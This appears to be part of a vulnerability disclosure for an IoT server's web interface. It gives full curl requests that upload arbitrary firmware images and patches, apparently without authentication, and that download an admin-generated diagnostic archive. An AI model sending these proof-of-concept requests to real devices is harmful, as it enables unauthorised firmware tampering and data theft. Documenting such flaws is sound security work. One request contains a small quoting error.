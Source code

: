 
_Additional Bugs (unknown impacts)_

* Upload new images
``` shell
curl -i -s -k  -X 'POST'																		\
-H 'Host: iot-server'																			\
-H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:59.0) Gecko/20100101 Firefox/59.0'	\
-H 'Accept: */*'																				\
-H 'Accept-Language: en-US,en;q=0.5'															\
-H 'Accept-Encoding: gzip, deflate'																\
-H 'Referer: https://iot-server/refUI/'															\
-H 'X-Requested-With: XMLHttpRequest'															\
-H 'Content-Length: 178'																		\
-H 'Content-Type: multipart/form-data; boundary=---------------------------237911457221800'		\
-H 'Connection: close'																			\ 
--data-binary "-----------------------------237911457221800\x0d\x0aContent-Disposition: form-data; name=\"file\"; filename=\"test.image\"\x0d\x0a\x0d\x0acontent here\x0d\x0a-----------------------------237911457221800--\x0d\x0a"	\
'https://iot-server/upgrade/upload'
```

* Upload patches
``` shell
curl -i -s -k  -X 'POST'																		\
-H 'Host: iot-server'																			\
-H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:59.0) Gecko/20100101 Firefox/59.0'	\
-H 'Accept: */*'																				\
-H 'Accept-Language: en-US,en;q=0.5'															\
-H 'Accept-Encoding: gzip, deflate'																\
-H 'Referer: https://iot-server/refUI/'															\
-H 'X-Requested-With: XMLHttpRequest'															\
-H 'Content-Length: 178'																		\
-H 'Content-Type: multipart/form-data; boundary=---------------------------237911457221800'		\
-H 'Connection: close'																			\
--data-binary "-----------------------------237911457221800\x0d\x0aContent-Disposition: form-data; name="\file\"; filename=\"test.patch\"\x0d\x0a\x0d\x0acontent here\x0d\x0a-----------------------------237911457221800--\x0d\x0a"	\
'https://iot-server/patch/upload'
```

* Diagnostic Data (The `generate diagnostic data` button is protected and must
  already have been generated by an admin prior)
``` shell
curl -i -s -k  -X 'GET'																			\
-H 'Host: iot-server'																			\
-H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:59.0) Gecko/20100101 Firefox/59.0'	\
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'					\
-H 'Accept-Language: en-US,en;q=0.5'															\
-H 'Accept-Encoding: gzip, deflate'																\
-H 'Referer: https://iot-server/refUI/'															\
-H 'Connection: close'																			\
-H 'Upgrade-Insecure-Requests: 1'																\
'https://iot-server/static/diagnostic/diagnostic_2019-09-26-20-43-42.tar.gz'
```
